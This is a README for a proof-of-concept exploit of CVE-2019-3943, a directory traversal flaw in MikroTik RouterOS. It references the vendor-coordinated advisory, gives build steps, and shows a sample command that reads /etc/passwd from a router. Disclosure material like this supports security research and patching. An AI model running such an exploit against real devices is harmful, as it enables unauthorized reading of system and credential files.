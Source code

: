 # CVE-2019-3943 Proof of Concept

This is an implementation of CVE-2019-3943 which is a directory traversal vulnerability affecting the fileman binary in Router OS. This vulnerability was patched in 6.44RC1. See Tenable's advisory at: https://www.tenable.com/security/research/tra-2019-16 

The PoC reads the contents of /etc/passwd via the www port. This PoC will on versions before 6.43.

## What are the build dependencies?

This requires:

* Boost 1.66 or higher
* cmake

## How do I build this jawn?

Just normal cmake. Try this:

```sh
mkdir build
cd build
cmake ..
make
```

Resolve dependencies as needed.

## Usage

Against 6.42.12:

```sh
albinolobster@ubuntu:~/routeros_internal/poc/cve_2019_3943_www/build$ ./cve_2019_3943_www -i 172.20.10.12 -p 80 -u admin

=== File Contents (size: 69) ===
nobody:*:99:99:nobody:/tmp:/bin/sh
root::0:0:root:/home/root:/bin/sh
```
